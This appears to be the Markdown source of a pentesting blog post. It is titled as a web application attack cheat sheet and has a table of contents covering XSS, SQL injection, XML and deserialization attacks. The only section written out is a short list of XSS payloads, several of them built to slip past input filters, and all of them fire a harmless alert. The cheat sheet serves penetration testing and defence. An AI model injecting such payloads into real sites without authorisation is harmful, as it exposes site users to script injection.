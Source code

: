 +++
draft = "true"
date = 2021-04-28T16:21:26+01:00
expiryDate = "2020-04-28T16:21:26+01:00"
title = "Web Application Pentest Cheat Sheet & Command Reference"
description = ""
slug = ""
tags = []
categories = ["Web-Application, Pentest, Cheatsheet"]
externalLink = ""
series = []
weight = 0
+++

---

Table of Contents

- [Encoding & Filtering](#)
- [Evasion Basics](#)
- [Cross-site Scripting](#cross-site-scripting)
   - [XSS Evasion techniques & WAF Bypassing](#)
   - [XSS Cheatsheet](#xss-cheatsheet)
- [Cross-site Request Forgery](#)
- [HTML5](#)
- [SQL Injection](#sql-injection)
   - [Recap on SQLi exploitation](#recap-on-sqli-exploitation)
   - [Advanced SQLi exploitation](#advanced-sqli-exploitation)
   - [SQLi Evasion Techniques & WAF Bypassing](#sqli-evasion-techniques-and-waf-bypassing)
   - [SQLi Evasion Cheatsheet](#sqli-evasion-cheatsheet)
- [XML Attacks](#xml-attacks)
  - [XML Tag Injection](#xml-tag-injection)
  - [XML eXternal Entity](#xml-external-entity)
  - [XML Entity Expansion](#xml-entity-expansion)
- [Attacking Serialization](#attacking-serialization)
   - [Serialization in Java](#serialization-in-java)
   - [Serialization in PHP](#serialization-in-php)
   - [Serialization in .NET](#serialization-in-net)
- [Server-side attacks](#)
- [Attacking Crypto](#)
- [Attacking Authentication & SSO](#)
- [API Pentesting & Cloud Applications](#)
- [Attacking LDAP-based implementations](#)



## Cross Site Scripting

### XSS Cheatsheet

```javascript
<script>alert('l33t')</script>

<script/random>alert('l33t');</script>

<script <script>>alert('l33t')</script>    //To use when the filter is not checking for recursive tags

<script  x>alert('l33t');</script>

<input oncut=alert('l33t');>    //To trigger the alert you have to cut text (CTRL+X)

<svg/onload=alert('l33t');>

<object/data=javascript:alert(‘l33t’)
```